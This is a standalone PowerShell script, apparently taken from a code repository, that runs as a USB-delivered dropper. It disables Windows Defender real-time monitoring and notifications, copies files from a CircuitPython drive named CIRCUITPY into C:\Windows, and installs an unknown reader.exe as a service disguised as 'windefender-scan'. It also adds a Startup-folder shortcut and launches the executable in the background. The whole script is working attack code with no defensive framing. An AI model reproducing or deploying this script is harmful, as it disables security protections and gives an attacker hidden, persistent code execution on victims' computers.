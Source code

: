 # Function to log messages to the console
function Log-Message {
    param (
        [string]$message
    )
    $timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    $logEntry = "$timestamp - $message"
    Write-Host $logEntry
}

# Log start of script
Log-Message "Script started."

# Disable Enhanced Notifications
try {
    Log-Message "Disabling Enhanced Notifications..."
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name DisableEnhancedNotifications -Value 1
    Log-Message "Enhanced Notifications disabled."
} catch {
    Log-Message "Error disabling Enhanced Notifications: $_"
}

# Disable Real-Time Monitoring
try {
    Log-Message "Disabling Real-Time Monitoring..."
    Set-MpPreference -DisableRealtimeMonitoring $true
    Log-Message "Real-Time Monitoring disabled."
} catch {
    Log-Message "Error disabling Real-Time Monitoring: $_"
}

# Find the CIRCUITPY drive
Log-Message "Searching for CIRCUITPY drive..."
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    Log-Message "CIRCUITPY drive found: $driveLetter."
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        Log-Message "Source path exists: $sourcePath. Copying files..."
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Log-Message "Files copied to $destinationPath."
        
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and reader.exe exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            Log-Message "nssm.exe and reader.exe found. Installing service..."
            try {
                & $nssmPath install $serviceName $exePath
                & $nssmPath start $serviceName
                Log-Message "Service installed and started successfully."
            } catch {
                Log-Message "Error installing or starting the service: $_"
            }
        } else {
            Log-Message "Error: nssm.exe or reader.exe not found in $destinationPath."
        }

        # Create a shortcut in the startup folder
        try {
            Log-Message "Creating shortcut for reader.exe in Startup folder..."
            $WshShell = New-Object -ComObject WScript.Shell
            $startupFolder = $WshShell.SpecialFolders.Item("AllUsersStartup")
            $shortcutPath = Join-Path $startupFolder "reader.lnk"
            $shortcut = $WshShell.CreateShortcut($shortcutPath)
            $shortcut.TargetPath = $exePath
            $shortcut.WorkingDirectory = $destinationPath
            $shortcut.Save()
            Log-Message "Shortcut created at $shortcutPath."
        } catch {
            Log-Message "Error creating shortcut: $_"
        }

        # Start reader.exe as a background process
        try {
            Log-Message "Starting reader.exe as a background process..."
            Start-Process -FilePath $exePath -WorkingDirectory $destinationPath -NoNewWindow
            Log-Message "reader.exe started in the background."
        } catch {
            Log-Message "Error starting reader.exe: $_"
        }
    } else {
        Log-Message "Error: Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Log-Message "Error: CIRCUITPY drive not found."
}

# Log end of script
Log-Message "Script completed."

